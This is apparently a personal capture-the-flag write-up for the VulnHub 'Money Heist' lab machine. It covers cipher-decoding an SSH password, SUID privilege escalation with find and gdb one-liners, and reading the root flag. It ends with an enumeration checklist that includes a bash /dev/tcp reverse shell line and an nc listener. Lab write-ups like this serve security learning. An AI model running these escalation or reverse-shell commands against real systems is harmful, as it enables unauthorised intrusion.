[Tap Code | Boxentriq](https://www.boxentriq.com/code-breaking/tap-code)


Message-Result: **jvdvanhhajmfeepcp**

Try decode the output with ROT13 cipher



[ROT13 Decoder - Online ROT 13 Tool](https://www.rot13.app/)

Result: wiqinauunwzsrrcpc

this is somehow undoubtedly **The Real** password for the Nairobi user, this is honestly not super intuitive 🤔

### SSH as Nairobi

```sh
┌──(kali㉿kali)-[~]
└─$ ssh nairobi@192.168.56.120 -p 55001

:::       ::: :::::::::: :::        ::::::::   ::::::::  ::::    ::::  :::::::::: 
:+:       :+: :+:        :+:       :+:    :+: :+:    :+: +:+:+: :+:+:+ :+:        
+:+       +:+ +:+        +:+       +:+        +:+    +:+ +:+ +:+:+ +:+ +:+        
+#+  +:+  +#+ +#++:++#   +#+       +#+        +#+    +:+ +#+  +:+  +#+ +#++:++#   
+#+ +#+#+ +#+ +#+        +#+       +#+        +#+    +#+ +#+       +#+ +#+        
 #+#+# #+#+#  #+#        #+#       #+#    #+# #+#    #+# #+#       #+# #+#        
  ###   ###   ########## ########## ########   ########  ###       ### ########## 

                My eyes on you, so be aware about your commands
                        !!Keep in your mind!!
 
nairobi@192.168.56.120's password: 
Permission denied, please try again.
```

The password is actually not working, and need further work with decoding.

[Modular conversion, encoding and encryption online - cryptii](https://cryptii.com/)

with the input of wiqinauunwzsrrcpc and using "Affine Cipher" as our decoder, we get a text that seems more human made "iamabossbitchhere"


The **Affine Cipher** is a type of substitution cipher that uses a mathematical formula to encrypt each letter. It combines **multiplication** and **addition** like this:

\[
E(x) = (a \cdot x + b) \mod m
\]

- \(x\) is the letter’s numeric value (A=0, B=1, ..., Z=25)  
- \(a\) and \(b\) are keys  
- \(m\) is the alphabet size (usually 26)  

To decrypt, you reverse the formula using the modular inverse of \(a\).


```sh
┌──(kali㉿kali)-[~]
└─$ ssh nairobi@192.168.56.120 -p 55001


:::       ::: :::::::::: :::        ::::::::   ::::::::  ::::    ::::  :::::::::: 
:+:       :+: :+:        :+:       :+:    :+: :+:    :+: +:+:+: :+:+:+ :+:        
+:+       +:+ +:+        +:+       +:+        +:+    +:+ +:+ +:+:+ +:+ +:+        
+#+  +:+  +#+ +#++:++#   +#+       +#+        +#+    +:+ +#+  +:+  +#+ +#++:++#   
+#+ +#+#+ +#+ +#+        +#+       +#+        +#+    +#+ +#+       +#+ +#+        
 #+#+# #+#+#  #+#        #+#       #+#    #+# #+#    #+# #+#       #+# #+#        
  ###   ###   ########## ########## ########   ########  ###       ### ########## 

                My eyes on you, so be aware about your commands
                        !!Keep in your mind!!

 
nairobi@192.168.56.120's password: iamabossbitchhere
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


98 packages can be updated.
75 updates are security updates.


Last login: Thu Oct 15 14:54:56 2020 from 10.0.2.60
nairobi@Money-Heist:~$ 
```

There is a note.txt!

```note
nairobi@Money-Heist:~$ cat note.txt 
                                                                                                                                                                       
                                                                                                                                                                       
                                                                                                                                                                       
                                  ``````.`     +ss-       `.-----`                                                                                                     
                                  mdddddddssyyshmmysysssyhddmmmmm:                                                                                                     
                                 `Nmmmmmmmddmmddddddmmdddmmmmmmmm/                                                                                                     
                                 `/////++/-+mN-----/NN/--:+osssss-                                                                                                                        
                                       -//yhmmyyysyymmhsyyyyyyyyyyyysyysyyssysyyoosooooooooosooooooooooooo+////////////////////////////+yo////:`                                                                 
       `                              .ymmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmydyhy-                                                                 
      -hdhhhhhhhhhhhhhhhhhhhhhhhhyyyyyhmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmo:::::::::::::::::::::::::::::::::::::::::::::o/::::-`                                                                 
      -dmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmmN/                                                                                                                      
      -dmmmmmmmmmmmmmmmmmmmmho//sdmmmmmmmmmmmmmmmmmmmmmmmmmmmdhys+++/////+///+++++/+/+//+/.                                                                                                                      
      -dmmmmmmmmmmmmmmmmmmmh-`  `-mmmmms+o///+mdmmmmmmmmmdo+:-.``                                                                                                                                                
      -dmmmmmmdhysoosydmmmm/     /mmmdso-/:--:o+mmmmmmmmmy`                                                                                                                                                      
      -dmmdho/-.``````-/sdmd/-.-smmmmo.-/////:`:mddhhhyys/                                                                                                                                                       
      -hho:.`           `-sdddmmmmmmd/         `--....```                                                                                             
      `..`                `.-:/+syyyo.                                                                                                                
                               ``````      
====================================================================================================================================================

Nairobi was shot by an snipher man, near the  HEART !!

```




It's time to use Linpeas.sh yet again 🫛

```
wget http://192.168.56.112:8000/linpeas.sh
wget http://192.168.56.52:8000/linpeas.sh

nairobi@Money-Heist:/tmp$ ls -al
total 2456
drwxrwxrwt  8 root    root      4096 Apr 12 18:43 .
drwxr-xr-x 23 root    root      4096 Oct  5  2020 ..
drwxrwxrwt  2 root    root      4096 Apr 12 17:48 .font-unix
drwxrwxrwt  2 root    root      4096 Apr 12 17:48 .ICE-unix
-rw-rw-r--  1 arturo  arturo  824942 Oct  5  2024 linpeas.sh
-rw-rw-r--  1 nairobi nairobi 824942 Oct  5  2024 linpeas.sh.1
-rw-rw-r--  1 nairobi nairobi 824942 Oct  5  2024 linpeas.sh.2
drwx------  3 root    root      4096 Apr 12 17:48 systemd-private-f740c0d52205407f8d048c46d6a92f9a-systemd-timesyncd.service-CN6CUb                                                                                     
drwxrwxrwt  2 root    root      4096 Apr 12 17:48 .Test-unix
drwxrwxrwt  2 root    root      4096 Apr 12 17:48 .X11-unix
drwxrwxrwt  2 root    root      4096 Apr 12 17:48 .XIM-unix
nairobi@Money-Heist:/tmp$ 

```


### Linpeas conclusion

Yikes... so much wall of text... saved you this time, one is more than enough. Anyway these critical files.
- /sed
- /find
- gdb

### [GTFOBins](https://gtfobins.github.io/)

In the end we won't get permission to the tokyo user

```
If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

- This requires that GDB is compiled with Python support.
    
    ```
    sudo install -m =xs $(which gdb) .
    
    ./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
    ```
```

```sh
nairobi@Money-Heist:/$ find . -exec /bin/bash -p \; -quit
bash-4.3$ cd /home
bash-4.3$ ls
arturo  denver  nairobi  tokyo
bash-4.3$ cd tokyo
bash: cd: tokyo: Permission denied
bash-4.3$ 


gdb -nx -ex 'python import os; os.execl("/bin/bash", "sh", "-p")' -ex quit

sh-4.3$ gdb -nx -ex 'python import os; os.execl("/bin/bash", "bash", "-p")' -ex quit
Python Exception <class 'ImportError'> No module named 'gdb': 
gdb: warning: 
Could not load the Python gdb module from `/usr/share/gdb/python'.
Limited Python support is available from the _gdb module.
Suggest passing --data-directory=/path/to/gdb/data-directory.

GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word".
bash-4.3$ ls
bash-4.3$ ls -al
total 36
drwxrwx--- 4 tokyo tokyo 4096 Nov 19  2020 .
drwxr-xr-x 6 root  root  4096 Oct 15  2020 ..
-rw------- 1 tokyo tokyo    8 Nov 19  2020 .bash_history
-rw-r--r-- 1 tokyo tokyo  220 Oct  5  2020 .bash_logout
-rw-r--r-- 1 tokyo tokyo 3771 Oct  5  2020 .bashrc
drwx------ 2 tokyo tokyo 4096 Oct  5  2020 .cache
drwxrwxr-x 2 tokyo tokyo 4096 Nov 19  2020 .nano
-rw-r--r-- 1 tokyo tokyo  655 Oct  5  2020 .profile
-rw-r--r-- 1 tokyo tokyo  133 Nov 19  2020 .sudo_as_admin_successful

bash-4.3$ cat .sudo_as_admin_successful
Romeo Oscar Oscar Tango Stop Papa Alfa Sierra Sierra Whiskey Oscar Romeo Delta : India November Delta India Alfa One Nine Four Seven                              
bash-4.3$       
```

the translation of .sudo_as_admin_successful can be
```
ROOT PASSWORD INDIA 1947
```

```
bash-4.3$ su root                                                                                                                                                 
Password: india1947                                                                                                                                                         
root@Money-Heist:/home/tokyo#
root@Money-Heist:/home/tokyo# whoami                                                                                             root                                
```

---
---

## Get the User Flag 🚩

__ No User Flags


## Get the Root Flag 🚩

```sh
root@Money-Heist:/home/tokyo# cd /root                                                                                                                            
root@Money-Heist:~# ls -al                                                                                                                                        
total 24
drwx------  3 root root 4096 Nov 19  2020 .
drwxr-xr-x 23 root root 4096 Oct  5  2020 ..
-rw-r--r--  1 root root 3121 Nov 19  2020 .bashrc
drwxr-xr-x  2 root root 4096 Oct  6  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root 3351 Nov 19  2020 proof.txt
root@Money-Heist:~# cat proof.txt


₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹
₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹

                                 ███████████           ████  ████                         ███                    
                                ░░███░░░░░███         ░░███ ░░███                        ░░░                     
                                 ░███    ░███  ██████  ░███  ░███   ██████       ██████  ████   ██████    ██████ 
                                 ░██████████  ███░░███ ░███  ░███  ░░░░░███     ███░░███░░███  ░░░░░███  ███░░███
                                 ░███░░░░░███░███████  ░███  ░███   ███████    ░███ ░░░  ░███   ███████ ░███ ░███
                                 ░███    ░███░███░░░   ░███  ░███  ███░░███    ░███  ███ ░███  ███░░███ ░███ ░███
                                 ███████████ ░░██████  █████ █████░░████████   ░░██████  █████░░████████░░██████ 
                                ░░░░░░░░░░░   ░░░░░░  ░░░░░ ░░░░░  ░░░░░░░░     ░░░░░░  ░░░░░  ░░░░░░░░  ░░░░░░  
                                                                                 


                                                        FLAG:- 659785w245e856aq59d413956
                                
                        Great work, you helped us to caught them! But still we did not get professor. Come with us in our next operation.
                                                                G00D LUCK!! 
                                                                                      


I'll be glad if you share screenshot of this on twitter,linkdin or discord.

Twitter --> (@_Anant_chauhan)
Discord --> (infinity_#9175)
Linkedin --> (https://www.linkedin.com/in/anant-chauhan-a07b2419b)

₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹
₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹ ₹


root@Money-Heist:~# 
```





---

# VulnHub Pentest Notes - [Money Heist]  
🔍 **Target IP:** `192.168.56.120`  
🖥 **OS:** Linux/Windows (Update accordingly)  
📅 **Date:** 2025-03-25  

---
## Resources & References  
📌 [MoneyHeist: Catch Us If You Can ~ VulnHub](https://www.vulnhub.com/entry/moneyheist-catch-us-if-you-can,605/)  
📌 [MoneyHeist: Catch Us If You Can || VulnHub Walkthrough](https://youtu.be/6KW4fAp4Nxc?si=W-X9a8FakGV1OFUj)

---
# 🕵️ Enumeration  

### 🛜 Network Discovery  
- [a] `sudo netdiscover -i eth1`
	- [a] `192.168.56.120`
- [ ] `netdiscover -r <target-range>`  
- [ ] `arp-scan -l`  

### 🌐 Port Scanning  
- [a] `nmap -sC -sV 192.168.56.120`
	- [a] Port 21 - Service: FTP - Version: vsftpd 3.0.3
		- [a] `ftp-anon: Anonymous FTP login allowed (FTP code 230)`
	- [ ] Port 80 - Service: http - Version: httpd 2.4.18 ((Ubuntu))
		- [ ] http-server-header: Apache/2.4.18 (Ubuntu)
		- [ ] http-title: Money Heist
- [ ] `nmap -sC -sV -p- -oN nmap_scan.txt <IP>`  
- [ ] `rustscan -a <IP> -- -A -oN rustscan.txt`  

### 🕸️ Web Enumeration  
- [a] `gobuster dir -u http://192.168.56.120/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`  
	- [ ] /img
	- [x] /robots
	- [ ] /gate
	- [ ] /server-status
- [ ] `nikto -h http://<IP>/`  

### 🔐 Credentials & SMB/NFS  
- [ ] `enum4linux -a <IP>`  
- [ ] `smbclient -L //<IP> -N`  
- [ ] `showmount -e <IP>`  

---
# 🦶 Initial Foothold  
- [ ] Identify possible exploits  
- [ ] Try default credentials  
- [ ] Use Metasploit/Manual Exploitation  
- [ ] Upload and use a reverse shell  

### Reverse Shell Cheatsheet  
```bash
nc -lvnp <PORT>
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
